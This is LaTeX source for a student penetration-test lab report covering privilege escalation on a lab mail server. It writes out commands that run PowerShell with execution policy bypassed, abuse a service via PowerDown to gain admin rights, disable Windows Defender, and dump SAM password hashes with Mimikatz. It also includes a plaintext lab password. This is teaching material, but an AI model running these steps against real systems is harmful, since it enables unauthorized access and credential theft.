%  Make this into a pdf document as follows:
%
%
% The edit the Report.tex file appropriately to include only those elements that
% make sense for the assignment you're reporting on.
%
% You can use a tool like TeXShop or Texmaker or some other graphical tool
% to convert Report.text into a pdf file.
%
% If you are making this with command line tools, you'd run the following command:
%
%     latex Report.tex
%
% That will generate a dvi (device independent) document file called Report.dvi
% The pages reported in the table of contents won't be correct, since latex only
% processes one pass over the document. To adjust the page numbers in the contents,
% run latex again:
%
%    latex Report.tex
%
% Then run
%
%   dvipdf Report.dvi
%
% to generate Report.pdf
%
% You can view this file to check it out by running
%
% xdg-open Report.pdf
%
% That's it.
  
\def\cvss(#1,#2,#3,#4,#5,#6,#7,#8,#9){
	\indent\textbf{CVSS Base Severity Rating: #9}  AV:#1 AC:#2 PR:#3 UI:#4 S:#5 C:#6 I:#7 A:#8}
  
\def\ttp(#1, #2, #3, #4, #5, #6){
   \indent\textbf{#1:} #2 \\
   \indent\indent\textbf{#3:} #4 \\
   \indent\indent\indent\textbf{#5:} #6 \\}

\documentclass[notitlepage]{article}

\usepackage{bibunits}
\usepackage{comment}
\usepackage{graphicx}
\usepackage{amsmath}
\usepackage{datetime}
\usepackage{numprint}

% processes above options
\usepackage{palatino}  %OR newcent ncntrsbk helvet times palatino
\usepackage{url}
\usepackage{footmisc}
\usepackage{endnotes}

\setcounter{secnumdepth}{3}
\begin{document}

\nplpadding{2}
\newdateformat{isodate}{
  \THEYEAR -\numprint{\THEMONTH}-\numprint{\THEDAY}}
  
\title{Penetration Test Exercise 09}
\author{Esteban Calvo}
\date{\isodate\today}

\maketitle

\tableofcontents

\newpage

\section{Technical Report}

Feel free to include an introduction if it suits your communication style.
You may omit it if you prefer to do so.

% Include one of these headings for each finding.

  \subsection{Finding: \emph{Root Access and Password Hashing}}
	\subsubsection*{Severity Rating}
        \textbf{Critical} \\
		\cvss(N,L,L,N,C,H,H,H,9.9)
		
  	\subsubsection*{Vulnerability Description}
  		After running some scripts, I have root access to the local remote machine and potential
        access to other domain wide users account and information. Immediate action is required

  	\subsubsection*{Confirmation method}
  	Create a new port forward to allow remote access to costumes rdp port when hitting mail.artstailor.com
    rdp port. Then copy our PowerDown.ps1 powershell to a filesystem to mount to remote destkop using
    the credentials previously found.
    \begin{verbatim}
rdesktop mail.artstailor.com -r disk:win32=/tmp/<tmp>/
    \end{verbatim}
    Open command prompt and navigate to mounted filesystem. Then run following commands
    \begin{verbatim}
Import-Module \\TSCLIENT\win32\PowerDown.ps1
Do-ServiceAbuse -Name "VSS" -User <Username> -Password <Password>
    \end{verbatim}
    Use these credentials to log back in as root user and then use Mimikatz to dump password hashes as follows
    \begin{verbatim}
lsadump::sam
    \end{verbatim}

    \subsubsection*{Mitigation or Resolution Strategy}
    It is once again imperative to make sure all users change their passwords to not allow any sort 
    of access to the remote desktop. If an attacker were to gain access however, there should be checks
    in place to make sure no one but administrators can run powershell or command prompt scripts. Even
    stronger measures such as no access to powershell to all non-administrative users can be enforced.



\section{Attack Narrative}

    \subsection{Mounting Filesystem}
    To get access to the machine, the same steps as previously followed to gain access were taken. That is, a new port forward firewall rule was created and the
    same credentials as last time were used. This time though, a new flag was used to pass in a mounted directory to the desktop. A new file was created in tmp
    using mktmp -d and then PowerUp.ps1 was passed to this directory. Later discovery revealed that we instead needed PowerDown.ps1 to be passed into the tmp directory.
    To pass in the mounted directory with PowerDown.ps1 module, we can run the command
    \begin{verbatim}
mktmp -d
cp Powershell/PowerDown.ps1 /tmp/<tmp>/
rdesktop mail.artstailor.com -r disk:win32=/tmp/<tmp>/
    \end{verbatim}
    From here, we can switch to the mounted filesystem using the following commands from the command line
    \begin{verbatim}
net use z: \\TSCLIENT\win32
powershell -exec bypass
z:
    \end{verbatim}
    We now have access to the filesystem that was mounted from the local kali VM.

    \subsection{Root Access}
    We can now see the PowerDown.ps1 script that we copied over to the mounted filesystem. To run the script using powershell, we can use the following commands
    \begin{verbatim}
Import-Module \\TSCLIENT\win32\PowerDown.ps1
Do-AllChecks
    \end{verbatim}
    Which reveals a possible attack vector that will give us root access with the following function
    \begin{verbatim}
Do-ServiceAbuse -Name "VSS" -User Esteban -Password G4t0r!=
    \end{verbatim}
    We can now use these User and Password credentials to sign in and when we log back in, we can see that we have admin privileges that we did not have before.

    \subsection{Mimikatz}
    We can now go to the virus \& threat protection section in the settings and disable real time protection as well as all the other virus protection policies set in place
    by Windows defender. The next step was to spin up an instance of command prompt as an administrator. On the local kali VM, we also want to make sure to move the mimikatz.exe executable
    to the mounted filesystem. Once we can see the executable on the remote desktop, we can then run it and use the following commands
    \begin{verbatim}
.\mimikatz.exe
privilege::debug
lsadump::sam
    \end{verbatim}
    This gives us a list of hashes for passwords on both the local machine as well as some domain login hashes that we can seek to exploit later.

    \subsection{Key}
    Because we now have administrator privileges, we can look around the directory for all users. Looking in the Administrator directory, a curious file by the name of UsefulFile.txt was found
    in the documents directory. Copying this to the z drive and opening on kali revealed the following key \\

\includegraphics[width=5in]{~/Desktop/school/fall2023/pen/ex/ex09/key11}



    \subsection{MITRE ATT{\&}CK Framework TTPs}    
	
	\subsubsection*{}
	\indent\textbf{TA0004:} Privilege Escalation \\
    \indent\indent\textbf{T1068:} Exploitation for Privilege Escalation \\ 

    \subsubsection*{}
    \ttp(TA0043, Reconnaissance, T1595, Active Scanning, .002, Vulnerability Scanning)
	
    \subsubsection*{}
	\ttp(TA0007, Discovery, T1087, Account Discovery, .001, Local/Domain Account) 

    \subsubsection*{}
    \ttp(TA0006, Credential Access, T1003, Credential Access, .002, Security Account Manager)

\end{document}
